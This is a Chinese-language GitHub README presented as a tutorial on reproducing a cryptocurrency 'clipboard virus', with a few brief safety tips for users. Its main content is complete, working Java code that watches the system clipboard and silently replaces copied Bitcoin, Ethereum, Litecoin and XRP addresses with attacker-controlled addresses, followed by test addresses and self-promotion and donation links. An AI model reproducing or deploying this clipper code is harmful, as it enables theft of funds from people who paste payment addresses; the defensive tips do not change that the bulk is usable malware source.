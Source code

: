 #### 监控剪贴板劫持用户复制内容！盗刷虚拟货币！教你复现剪贴板病毒！Java如何监控剪贴板？剪贴板可以让你倾家荡产！剪贴板这样使用才是最安全的！最近币圈很多人中招的剪贴板病毒，盗取用户加密货币资产，这个病毒很早就有了，它会自己自动检查用户剪切 复制 的内容，如果你的剪切复制内容里有地址的格式，它就会自动把这地址换成盗窃者的地址。如果你平时不够细心的话，那你就会容易中招。实在是卑鄙无耻下流也。

## 剪贴板安全正确的使用方式：

**1.银行卡号、转账地址、手机号等信息不要一次性复制完，分段复制可以很大程度上避免被窃取。**

**2.复制密钥、密码等信息在复制前插入几个字符达到混淆真实密码的目的，粘贴完后再删除对应的字符即可。**

**3.填写收款账号等表单时，转账核对一下有关于钱相关的信息，不要直接就保存了或转账了。**

视频教程：https://youtu.be/QEpFjFr_ddA?si=Uu8Xvwzyl6mI2YNi
****

Java监控剪贴板代码（监控复制的内容是否是虚拟货币地址）：

```java

// 监听剪贴板并且替换
public class SimpleVPN {
    private static final Pattern BTC_PATTERN = Pattern.compile("(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}");
    private static final Pattern ETH_PATTERN = Pattern.compile("0x[a-fA-F0-9]{40}");
    private static final Pattern LTC_PATTERN = Pattern.compile("[LM3][a-km-zA-HJ-NP-Z1-9]{26,33}");
    private static final Pattern XRP_PATTERN = Pattern.compile("[rX][1-9A-HJ-NP-Za-km-z]{24,34}");
    private static boolean isUpdatingClipboard = false; // 解决无限循环问题
    public static void main(String[] args) {
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        Transferable previousContent = clipboard.getContents(null);
        while (true) {
            try {
                Thread.sleep(1000); // 每秒检查一次
                if (isUpdatingClipboard) {
                    isUpdatingClipboard = false; // 跳过本次循环，避免检测到自己修改的内容
                    continue;
                }
                Transferable currentContent = clipboard.getContents(null);
                if (currentContent != null) {
                    // **忽略非文本格式的数据**
                    if (!currentContent.isDataFlavorSupported(DataFlavor.stringFlavor)) {
                        continue;
                    }
                    String newText = (String) currentContent.getTransferData(DataFlavor.stringFlavor);
                    if (previousContent == null || !newText.equals(previousContent.getTransferData(DataFlavor.stringFlavor))) {
                        System.err.println("用户复制了内容: " + newText);
                        if (BTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到比特币(BTC)地址: " + newText);
                            setClipboardContent("AAAAA1eP5QGefi2DMPTfTL5SLmv7DivfNa"); // 修改剪贴板内容
                        } else if (ETH_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到以太坊(ETH)地址: " + newText);
                            setClipboardContent("AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e"); // 修改剪贴板内容
                        } else if (LTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到莱特币(LTC)地址: " + newText);
                            setClipboardContent("AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq"); // 修改剪贴板内容
                        } else if (XRP_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到瑞波币(XRP)地址: " + newText);
                            setClipboardContent("AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv"); // 修改剪贴板内容
                        }
                        previousContent = clipboard.getContents(null); // 重新获取剪贴板内容，避免旧数据干扰
                    }
                }
            } catch (UnsupportedFlavorException e) {
                System.err.println("剪贴板数据格式不支持，跳过: " + e.getMessage());
            } catch (IOException e) {
                System.err.println("读取剪贴板数据时发生IO异常: " + e.getMessage());
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

    // 修改剪贴板内容
    public static void setClipboardContent(String text) throws InterruptedException {
        isUpdatingClipboard = true; // 标记为正在修改剪贴板，避免无限循环
        StringSelection selection = new StringSelection(text);
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        clipboard.setContents(selection, null);
        Thread.sleep(500);
        System.err.println("篡改剪贴板成功，成功修改为: " + text);
    }

}

```

测试：

假设你要往下面的虚拟货币地址转账

**比特币 (BTC) 收款地址**: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `0x742d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `LZ3nx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `rDsbeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****

不法分子的虚拟货币地址

**比特币 (BTC) 收款地址**: `AAAAP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****





****

#### 攻防无绝对，技术无好坏，在非安全的信息时代，众人皆在囚笼之中，关注牛马小试，让你一飞冲天！
 
****

- **Telegram(文件资源频道)：https://t.me/NiuMaXiaoShi**
- **Youtube：  https://www.youtube.com/@MeeGooBoo**
- **Twitter ( X ）：  https://x.com/MeeGooBoo**

****
- 需要联系我？请通过：https://t.me/MeeGooBoo
- 注：本人不参与任何涉政相关讨论，本人所有平台和内容仅供技术相关学习交流使用。
****

> [!CAUTION]
>
> 本仓库所有内容均来自互联网公开内容或本仓库所有者创作，请勿相信资源中的广告，主动联系你的都是骗子，提高智商谨防上当受诈！请勿利用本仓库实施违反任何适用法律法规等犯罪活动！本仓库所有者不对因使用本仓库内容导致的任何后果承担责任！

****

## 你的赞助是功德无量💰

> [!NOTE]
>
> 如果你觉得本仓库对你有帮助，你可以赞助我们一杯咖啡，鼓励我们继续维护下去。<br>
> 成为我的Patreon会员：https://www.patreon.com/MeeGooBoo/membership<br> 
> 通过Paypal支持我：https://paypal.me/MoGuoBiao<br>
> 通过比特币支持我：bc1qkwrq5plek62fmfaynyphfuuepm6cxd4fsh5wrp



<p align="center" >
    <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/logo.png" width="150">
    <h3 align="center">牛马小试(莫国标)</h3>
    <p align="center">
        <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/pays.png">
    </p>
</p>

****  

